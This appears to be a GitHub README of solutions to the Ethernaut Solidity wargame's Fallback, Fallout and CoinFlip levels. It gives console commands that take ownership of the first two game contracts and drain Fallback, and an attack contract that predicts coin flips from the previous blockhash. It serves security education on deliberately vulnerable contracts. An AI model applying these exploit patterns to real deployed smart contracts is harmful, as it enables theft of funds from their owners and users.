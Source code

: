 # Ethernaut
The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.

## 1.Fallback
~~~
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
~~~

## 2.Fallout
```
> contract.owner()
< [[PromiseResult]]: "0x0000000000000000000000000000000000000000"

> contract.Fal1out()

> contract.owner()
< [[PromiseResult]]: "0xedd0cCc6FeE49D502E8BfA3C6033ce0201afaD83"

## 3.CoinFlip

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import"./coinflip.sol";

contract coinflipAttack {
    CoinFlip public coinFlipAttack;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address victimaddress) public {
        coinFlipAttack = CoinFlip(victimaddress);
    }

    function flip() public returns (bool) {
        
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        
        bool side = coinFlip == 1 ? true : false;

        coinFlipAttack.flip(side);
    }
}
